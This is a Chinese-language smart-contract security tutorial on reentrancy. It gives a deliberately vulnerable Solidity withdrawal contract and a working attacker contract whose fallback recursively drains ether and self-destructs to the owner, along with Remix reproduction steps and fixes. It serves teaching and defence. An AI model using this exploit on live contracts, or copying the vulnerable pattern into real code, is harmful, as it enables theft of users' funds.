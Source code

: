 # 01.Reentrancy - 重入

## 漏洞等级
**高危**

## 漏洞成因
`重入攻击`, 也可以说是`递归调用`漏洞。`漏洞合约`的`漏洞函数`对`恶意合约`发起调用后，`恶意合约`再次发次对`漏洞合约`的`漏洞函数`的调用，如果`恶意合约`被允许调用`漏洞函数`且调用成功也就发生了`重入`。
通常漏洞由合约发起`<Address>.send()`/`<Address>.call.value()()`发送ether到`外部合约`,从而触发`外部合约`的`回退函数` - [fallback()](http://solidity.readthedocs.io/en/v0.4.21/contracts.html#fallback-function)`导致的。
> 合约接收ether的时候会触发fallback()
>
> 合约被调用函数不存在,也会fallback())

## 漏洞危害
由于`漏洞函数`执行过程调用`不可信合约`或者使用`具有外部地址`的`低级函数`,`漏洞合约`的`合约状态`被改变,`漏洞函数`的`运行结果`也将`不可信`。以`The DAO`事件为例,攻击者的恶意的递归调用使`The DAO`损失了`350万ETH`,也导致了以太坊的分叉。

## 漏洞测试方法

### 测试环境
推荐并尽量使用 `Remix - Solidity IDE` 进行复现
(部分漏洞使用`truffle`本地搭建环境进行补充复现)

[Remix - Solidity IDE](http://remix.ethereum.org/#optimize=false&version=soljson-v0.4.24+commit.e67f0147.js)

### 编译合约

将以下两个合约直接复制粘贴到 Remix 的代码框中

#### 被攻击合约:

**Reentrance**
```
pragma solidity ^0.4.15;

contract Reentrance {
    mapping (address => uint) userBalance;
   
    // 返回地址u的余额
    function getBalance(address u) constant returns(uint){
        return userBalance[u];
    }

	// 对合约充值ether
    function addToBalance() payable{
        userBalance[msg.sender] += msg.value;
    }   
	
    // 从合约取款
    function withdrawBalance(){
        // 发送 userBalance[msg.sender] ethers 到 msg.sender
        // 如果 mgs.sender 是一个合约, 这将会触发 msg.sender 地址上的合约的回退函数 fallback()
        if( ! (msg.sender.call.value(userBalance[msg.sender])() ) ){
            throw;
        }
        // 取款完成后将 userBalance[msg.sender] 归零
        userBalance[msg.sender] = 0;
    }   
   
}

```
#### 攻击者合约:
**ReentranceExploit**
```
contract ReentranceExploit {
    // 被攻击合约的地址
    address public vulnerable_contract;
    // 当前合约的拥有者
    address public owner;

    function ReentranceExploit() public{
    	// 合约拥有者为合约创建者
        owner = msg.sender;
    }

    function deposit(address _vulnerable_contract) public payable{
        vulnerable_contract = _vulnerable_contract ;
        // 发送 msg.value ethers 到 vulnerable_contract.addToBalance()
        // 使当前攻击者合约在被攻击合约中有余额 即 vulnerable_contract.userBalance[msg.sender] > 0
        // vulnerable_contract.userBalance[msg.sender] 就是攻击者每次递归调用偷取的ether(wei)量
        require(vulnerable_contract.call.value(msg.value)(bytes4(sha3("addToBalance()"))));
    }

    function launch_attack() public{
        // 调用 vulnerable_contract.withdrawBalance
        // withdrawBalance calls the fallback of ReentranceExploit
        require(vulnerable_contract.call(bytes4(sha3("withdrawBalance()"))));
    }  


    function () public payable{
        // 当本合约发起攻击后,vulnerable_contract 会发送ether到本合约从而触发本合约回退函数fallback()
        // 本合约fallback() 中会再次调用 vulnerable_contract.withdrawBalance() 进行取现
        // 由于 vulnerable_contract 先进行发送ether后修改userBalance[msg.sender
        // 此时 vulnerable_contract.userBalance[msg.sender] 会一直不变
        // 从而每次调用会从vulnerable_contract合约中取出userBalance[msg.sender] (wei) ether
        // 直到将vulnerable_contract 的 ether 取空(剩余量小于vulnerable_contract.userBalance[msg.sender] (wei))
        vulnerable_contract.call(bytes4(sha3("withdrawBalance()")));
    }

    function get_money(){
    	// 执行 suicide 自毁函数,将当前攻击者合约销毁
        // 并且将攻击者合约中的ether全部发送到owner账户中
        suicide(owner);
    }

}

```

![](images/20180620004742367.png)

### 切换到 `run` 面板
1. 点击 `deploy` 按钮部署 `Reentrance` 合约

![](images/20180620005003918.png)

2. 修改Value为 `50` ,单位为 `ether`
点击 `addToBalance` 给 `Reentrance` 合约进行充值ether,

![](images/20180620005459925.png)


3. 切换到Account 2:`0x14723a09acff6d2a60dcdf7aa4aff308fddc160c`,选择`ReentranceExploit`,点击 `Deploy`

![](images/20180620005722236.png)

4. 修改`Value` 为 `10` ether,然后复制 `Reentrance` 合约地址,粘贴到 `ReentranceExploit`的`deposit`参数框中,
点击`deposit`按钮进行充值ether到`Reentrance`合约

![](images/20180620005922476.png)

5. 点击 `launch_attack` 按钮进行攻击

6. 点击 `get_money` 按钮进行销毁攻击者合约,并且返回ether到owner账户,
可以看到Account 2增加了`50` ether

![](images/20180620010604810.png)






## 修复建议

1. 最好避免使用`<Address>.call.value()()`这种形式发送ether,建议使用更安全的`<Address>.transfer()`

>推荐使用`<Address>.transfer()`而不是`<Address>.send()`,`<Address>.send()`在发送是失败的时候只会返回`false`,
>而`<Address>.transfer()`则会抛出异常,引发evm操作回滚,更为安全。

示例代码:

```    
function withdrawBalance(){
	// send() 和 transfer() 都可以防止重入
	// 他们在调用时不会发送所有的gas,(仅发送2300gas)
	// 这样调用函数部分只能执行很少的操作
	// 从而使fallback()函数不能完整执行
	msg.sender.transfer(userBalance[msg.sender]);
	userBalance[msg.sender] = 0;
}  

```

2. 可以采取先扣除余额再发送ether的形式(不是非常建议,除非合约必须使用`<Address>.call.value()()`这种形式,否则都采取上面的建议)

示例代码:
```
function withdrawBalance(){
    uint amount = userBalance[msg.sender];
    userBalance[msg.sender] = 0;
    if( ! (msg.sender.call.value(amount)() ) ){
        throw;
    }
}   
```

> 参考:
>
>[DASP - TOP 10](
https://www.dasp.co/)
>
>[github:not-so-smart-contracts/reentrancy](
https://github.com/trailofbits/not-so-smart-contracts/tree/master/reentrancy)
>
>[以太坊智能合约安全入门了解一下（上）](
http://rickgray.me/2018/05/17/ethereum-smart-contracts-vulnerabilites-review/)

Contact me: ***root@blockchain-security.info***